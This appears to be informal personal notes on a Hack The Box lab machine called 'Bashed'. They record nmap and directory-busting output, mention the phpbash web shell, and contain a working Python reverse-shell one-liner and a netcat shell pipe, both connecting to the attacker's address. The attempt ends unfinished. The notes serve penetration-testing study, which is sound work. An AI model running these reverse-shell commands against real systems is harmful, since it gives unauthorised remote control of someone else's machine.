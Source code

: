 ![](20230211124736.png)  

it mentions phpbash developed at arrexel
https://github.com/Arrexel/phpbash

```
└─$ nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-11 12:43 EST
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 30.03% done; ETC: 12:50 (0:04:51 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
80/tcp   open     http           Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
3370/tcp filtered satvid-datalnk

```

we can http://10.10.10.68/uploads/

in the images we see that ther re is this directory


feroxbuster --url http://10.10.10.68/uploads -x php

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.10.68/uploads -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.68/uploads
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        9l       28w      312c http://10.10.10.68/uploads => http://10.10.10.68/uploads/
403      GET       11l       32w      290c http://10.10.10.68/.php
[####################] - 8m     60000/60000   0s      found:2       errors:89     
[####################] - 8m     60000/60000   113/s   http://10.10.10.68/uploads/ 

```

![](20230211130654.png)  

no permission to upload it says


after some more busting found at

![](20230211133302.png)  

now we need to find vuln in the code

![](20230211140234.png)  

problem with uploading shell

but user flag gotten easily

![](20230214120019.png)  

python shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

`nc -lvp 1235`


/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

python doesn'tseem to run

in my case however nc  return connect momentarily

/bin/sh | nc 10.10.14.19 1235

trying all weird combinations but unableto get the script accross

so bashed shall ressmain unconquered.

looking for more ad machines. sure.
can i really work hard. oscp and osep.
Dec 6



